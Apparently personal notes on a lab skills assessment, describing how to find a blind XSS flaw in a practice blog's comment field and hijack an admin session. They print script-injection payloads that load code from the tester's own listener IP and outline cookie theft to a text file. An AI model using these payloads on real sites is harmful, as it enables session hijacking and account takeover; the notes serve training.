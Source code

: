 ```yaml
---
title: 'Skills Assessment:'
updated: 2023-08-26T10:42:45.0000000+01:00
created: 2023-08-26T09:50:25.0000000+01:00
---
```


![image1](../../../../_resources/image1-198.png)

1.  First we need to find a user-input field that is vulnerable to an XSS vulnerability.
2.  Find a working XSS payload.
3.  Perform a Session Hijacking attack.

Finding user-input field:

Firstly we want to navigate to: <http://10.129.202.156/assessment/>.
![image2](../../../../_resources/image2-164.png)

From this is looks like it is a good idea to try either the **search feature** or the **comment feature:**

Search:
<http://10.129.202.156/assessment/?s=fd>

Comment:
<http://10.129.202.156/assessment/index.php/2021/06/11/welcome-to-security-blog/?unapproved=6&moderation-hash=68858fa66281f984fcd47e8668eeb3ae#comment-6>

We can first try and use our basic XSS payload of: **\<script\>alert(window.origin)\</script\>** - which doesn't work.

Using **XSStrike** on the search feature, we can see many payloads that should work, lets test it until we get a working payload.

Also, we don't know if the attack vector is **blind XSS** meaning we should try spin up a server if payloads seem ineffective.

**Testing for blind XSS:**
1.  Start a netcat or php listener - ideally PHP
    1.  ![image3](../../../../_resources/image3-129.png)
2.  Test fields by trying XSS payloads to our IP
    1.  **"\>\<script src=http://10.10.16.22:80/\[field_name\]\>\</script\>**
    2.  Note that we should also try various prefixes, since we don't know what will break the source code
        1.  \<script …
        2.  '\<script …
        3.  "\<script …
    3.  In our context this would be:
        1.  **"\>\<script src=http://10.10.16.22:80/?s\>\</script\>**
3.  You know that you will have a blind XSS when, you get requests to your listener:
    1.  ![image4](../../../../_resources/image4-104.png)
    2.  After we customise the requests:
    3.  ![image5](../../../../_resources/image5-80.png)
        1.  We can see that the website field is vulnerable to blind XSS.
            1.  ![image6](../../../../_resources/image6-57.png)

So now that we know that a field is vulnerable to blind XSS, we can generate a payload to steal the admin credentials.
Writing our payload:

So we need to write a JavaScript payload so that our listener can capture the cookie from the current document:

Script.js (in our listener location):
![image7](../../../../_resources/image7-50.png)

Then we need to write a PHP script to write the cookie data to a text file:

Index.php (in our listener location)
![image8](../../../../_resources/image8-43.png)

Then we restart our php listener.

Finally we can send our payload:
![image9](../../../../_resources/image9-36.png)
*If you get duplicate comment detected, just add some random text to the front of the comment.*

We then get the following response:
![image10](../../../../_resources/image10-30.png)

We can also see the flag in our **cookies.txt:**
![image11](../../../../_resources/image11-23.png)

